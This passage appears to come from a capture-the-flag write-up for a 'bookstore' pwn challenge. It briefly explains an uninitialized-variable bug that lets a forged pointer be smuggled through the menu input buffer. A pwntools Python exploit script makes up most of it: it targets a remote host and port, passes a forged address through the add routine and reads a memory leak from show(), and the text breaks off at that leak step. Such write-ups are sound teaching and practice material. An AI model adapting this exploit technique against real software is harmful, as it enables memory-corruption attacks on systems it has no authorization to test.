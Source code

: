 That means, the only way I could forge my pointer is on `sub_40122D()` calls right after the menu printed. Luckyly, the buffer to be passed into `atoi` is overlapping with `v5` later while adding a book to collection.

*TL;DR*, uninitialized variable
```py
#!/usr/bin/env python
from pwn import *

# context.arch = "amd64"
context.log_level = "debug" # debug, info, warn
context.terminal = ["tmux", "splitw", "-h"]

BINARY = "./bookstore"
HOST = "130.211.214.112"
PORT = 18012

# elf = ELF(BINARY, checksec=False)
uu64 = lambda x: u64(x.ljust(8, "\x00"))
uu32 = lambda x: u32(x.ljust(4, "\x00"))

gdbscript = '''
b *0x4018A3
b *0x401370
b *0x40144B
# b *0x401250
'''

def attach(r):
    if type(r) == process:
        gdb.attach(r, gdbscript)

def add(name, year, target):
    r.sendafter(' : ', '1'.ljust(8, '\x00') + p64(target))
    r.sendafter('? ', name)
    r.sendafter('? ', str(year))

def delete(name, year, idx):
    r.sendafter(' : ', '2')
    r.sendafter('? ', name)
    r.sendafter('? ', str(year))
    r.sendafter('? ', str(idx))

def update(name, year, desc=None):
    r.sendafter(' : ', '3')
    r.sendafter('? ', name)
    r.sendafter('? ', str(year))
    if desc != None:
        r.sendafter(': ', desc)

def show():
    r.sendafter(' : ', '4')
    res = []
    r.recvuntil(' 0 : ', 1)
    for i in range(1, 20):
        res.append(r.recvuntil('\n\n{:2d} : '.format(i), 1).split('\n     '))
    res.append(r.recvuntil('\n\n           Action List', 1).split('\n     '))
    return res

def exploit():
    attach(r)
    add('circleous', 0x1337, 0x403fb0)
    res = show()
    leak = res[0][2]
```